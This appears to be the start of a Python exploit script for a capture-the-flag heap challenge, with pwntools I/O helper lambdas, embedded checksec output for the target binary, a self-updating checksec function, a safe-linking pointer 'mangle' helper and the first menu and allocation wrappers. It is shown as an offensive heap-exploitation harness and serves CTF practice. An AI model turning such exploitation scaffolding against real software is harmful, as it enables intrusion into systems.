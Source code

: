 ```python
def update_checksec():
    marker = "CHECKSEC"
    fn = sys.modules[__name__].__file__
    with open(fn, "r+", encoding="utf-8") as f:
        src = f.read()
        i = src.find(marker)
        i = src.find(marker, i + 1)
        i = src.find("\n", i)
        i = src.find("\n", i + 1)
        start = i + 1
        end = src.find("\n", start)
        if end == -1: 
            end = len(src)
        if src[start:end].strip() == "":
            output = execute("checksec --file {}".format(exe))
            commented = "".join(("# " + line + "\n") if line.strip() else "#" for line in output.splitlines())
            src = src[:start] + commented + src[end:]
            f.seek(0); f.write(src); f.truncate()

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
se      = lambda data               :str(data).encode()
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))

# =========================================================
#                         CHECKSEC
# =========================================================
# [*] '/home/kali/Windows/Schematic NPC/program-loop-alpha/main_patched'
#     Arch:       amd64-64-little
#     RELRO:      Partial RELRO
#     Stack:      Canary found
#     NX:         NX enabled
#     PIE:        No PIE (0x3fe000)
#     RUNPATH:    b'.'
#     SHSTK:      Enabled
#     IBT:        Enabled
#     Stripped:   No

# =========================================================
#                         EXPLOITS
# =========================================================
def mangle(heap_addr, val):
    return (heap_addr >> 12) ^ val

def menu(choice):
    sla(b"<blip> ", se(choice)) 

def alloc(sz):
    menu(1)
    sla(b"Size: ", se(sz))

```